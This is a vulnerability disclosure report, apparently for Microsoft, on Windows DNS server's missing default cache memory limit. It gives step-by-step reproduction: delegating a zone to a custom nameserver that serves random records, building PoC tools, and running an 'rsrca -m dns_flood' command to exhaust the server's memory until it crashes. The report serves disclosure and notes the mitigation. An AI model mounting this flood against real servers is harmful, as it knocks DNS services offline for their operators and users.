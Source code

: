 # MSCVD: MS DNS has no cache memory limit
 - Type: Denial of Service (CWE-400: Uncontrolled Resource Consumption)
 - Attack vector: MS DNS

Windows DNS server has no default cache memory limit. `Set-DnsServerCache`[^1]
or `dnscmd /maxcachesize`[^2](for older versions) can be used to limit the cache
memory use, but this setting is

 1. not well known
 2. not exposed in the GUI

A malicious actor can exploit these facts to fill up the DNS cache with garbage
to exhaust system memory to cause an eventual system crash.

## Steps to Reproduce
Prerequisites:

 1. a domain name (for demonstration purposes, `example.com` is used in this
    report)
 2. a Linux machine with public IP address for hosting the special nameserver
    implementation `rsrca-ns`(attached in the POC bundle)
 3. another Linux machine for running `rsrca`
 4. The victim Windows server

The Windows server and rsrca machine(3) will need IPv6 connectivity as the
`rsrca` program only supports IPv6. In theory, the IP version involved should
have no impact on the result.

**rsrca-ns** is a simple nameserver implementation specifically written for the
POC. It returns random bogus records. It can be used to fill the DNS cache with
random data.

### Victim Windows server setup
https://learn.microsoft.com/en-us/windows-server/networking/dns/quickstart-install-configure-dns-server?tabs=powershell#installing-dns-server

Install and start DNS service as per instructions above. The
`Get-DnsServerCache` command should report `MaxKBSize` as zero.

### rsrca-ns machine setup
Via the domain registrar, delegate the zone to the server.

```zone
$ORIGIN example.com.
$TTL 3600
example.com.	IN	NS		ns
ns				IN	A		192.0.2.1
ns				IN	AAAA	2001:db8::53:1
```

where `192.0.2.1` and `2001:db8::53:1` are the IP address of the server running
rsrca-ns.

Build and run rsrca-ns:

 1. untar the POC bundle and cd to the directory
 2. configure: `cmake --config Release -B build .`
 3. cd to the build directory: `cd build`
 4. build rsrca-ns: `make rsrca-ns`
 5. run in background: `sudo ./rsrca-ns &`

To kill the process, use `sudo killall rsrca-ns`.

Test if public resolvers can reach rsrca-ns:

```sh
for (( i = 0; i < 5; i += 1 )); do dig +short $RANDOM.example.com A; done
#168.103.224.107
#236.125.181.89
#247.62.94.26
#167.215.119.33
#27.38.239.66

for (( i = 0; i < 5; i += 1 )); do dig +short $RANDOM.example.com AAAA; done
#f1d8:ae62:d4e8:2445:c2d9:317a:3a8e:cf5e
#77b2:820c:ba9:9258:9b3e:9804:7834:3627
#64c6:ae57:35fc:6213:8405:9c47:d641:2e54
#c773:e428:ca22:6d2e:9513:77f:5adc:9629
#aae:5c6f:a44b:a62d:6613:b000:e48d:c927

for (( i = 0; i < 5; i += 1 )); do dig +short $RANDOM.example.com TXT; done
#"m$y SyZQ?SK&|R_6_Zy$l}7?`*POu!`m2\\7E"
#"B7h*'97#?3C:}P+`>a)W'K'yLzG?)XP\"2'z~sx>}iCJM+WLz U ED^%F^sNrNJ<QGYS:\\Mr#(z.>N^ON>e'M/?3M[>=4Oqw/a6R^pEe$y&nw'L<@ZCaGZ#.];a4mA3E_Ej?k`d MYP'#)5=~nB;uJs( &gW|y&a.~w#@;6m&]#0,Ny60?0#!Pu,>(}1/ e3(u .>"
#"n>!2Y/~Z?8UEqh"
#"T=^CS`;4c|R-O\"oP[%E@t&^i}M-Wij-48)Bq6P=/`Jq;vQZ&d~T/c]*+8BX7mSX9C(Eq4tW/~CCo30u!4iQ/X*gF{Jc/#wd0fFA/-x1;0rAA/jS2h?rz=9;Z3L4S[nkKd.K6_=B,Uh!*2 ;EK|F=C6W"
#"ypu!xyD@..8/0#[q:K JA/-2=*Nar'-'&(rv\"B_QJ9ex7_I>vT44XXJhExd=)C(h3aRF?49*X$2qf@FrNY 7aZ|=)\\AbDTXm:aT/N7p,6Gis[W3}ZKNPO%*\"!\\+ykRi1v%X$X"
```

### rsrca machine setup
Build and run rsrca-ns:

 1. untar the POC bundle and cd to the directory
 2. configure: `cmake --config Release -B build .`
 3. cd to the build directory: `cd build`
 4. build rsrca-ns: `make rsrca`

Mount the attack:

```sh
sudo ./rsrca -m dns_flood -R example.com -w 2001:db8:1::1 2001:db8:2::1
```

where `2001:db8:1::1` is the address of the host running rsrca, `2001:db8:2::1`
is the address of the victim Windows server.

Crafted DNS queries(`1234.example.com TXT`, `5678.example.com TXT`, ...) will be
sent to the victim server. The victim server will then get random TXT RDATA from
rsrca-ns. Over the span of hours, the memory utilisation of dns.exe process will
slowly creep up, to the point where the system runs out of virtual address space
and crashes.

For the attack to be effective, all of the servers involved should preferably
be in close network proximity.


---

[^1]: https://learn.microsoft.com/en-us/powershell/module/dnsserver/set-dnsservercache?view=windowsserver2025-ps
[^2]: https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/dnscmd#dnscmd-config-command
